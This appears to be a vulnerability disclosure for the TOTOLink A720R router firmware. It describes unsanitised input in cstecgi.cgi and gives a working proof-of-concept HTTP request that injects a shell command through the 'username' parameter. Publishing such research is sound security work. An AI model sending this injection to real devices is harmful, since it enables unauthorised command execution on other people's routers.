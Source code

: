 # TOTOLink A720R V4.1.5cu.532_B20210610 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=14&ids=36

### Product Information

TOTOLink A720R V4.1.5cu.532_B20210610 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](img/image-20220213010829260.png)

## Vulnerability details

![image-20220718075801786](img/image-20220718075801786.png)

TOTOLINK A720R was found to contain a command insertion vulnerability in cstecgi.This vulnerability allows an attacker to execute arbitrary commands through the "username" parameter.

![Figure 2 Local of the vulnerability](img/image-20220718075116046.png)

We can see that the operating system will get "username" without filtering and inserting it into the strings "openvpn cert build_user" and "gz". Therefore, if we can control "username", it can be a command injection.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&username=;ifconfig;&filetype=gz HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/login.html
Content-Length: 0
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache
```

![image-20220718070705547](img/image-20220718070705547.png)

![image-20220718070721076](img/image-20220718070721076.png)

 The above figure shows the POC attack effect 


